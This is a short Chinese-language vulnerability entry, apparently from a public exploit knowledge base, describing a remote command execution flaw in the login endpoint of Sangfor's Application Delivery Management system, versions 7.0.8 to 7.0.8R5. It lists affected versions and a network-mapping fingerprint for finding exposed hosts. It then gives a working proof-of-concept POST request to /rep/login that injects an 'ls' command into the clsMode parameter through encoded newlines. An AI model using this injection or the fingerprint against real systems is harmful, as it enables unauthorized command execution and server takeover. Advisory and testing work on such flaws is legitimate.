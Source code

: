 # 深信服 应用交付管理系统 login 远程命令执行漏洞

## 漏洞描述

深信服 应用交付管理系统 login 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

## 漏洞影响

<a-checkbox checked>深信服 应用交付管理系统 7.0.8-7.0.8R5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>fid="iaytNA57019/kADk8Nev7g=="</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1675307887742-7f1d91ab-0fc3-4b09-b434-70466ec13871.png)

验证POC

```plain
POST /rep/login 

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```

![img](../../../.vuepress/public/img/1675307928621-8722e4f7-ddd8-44ee-9010-4f9189a12081.png)
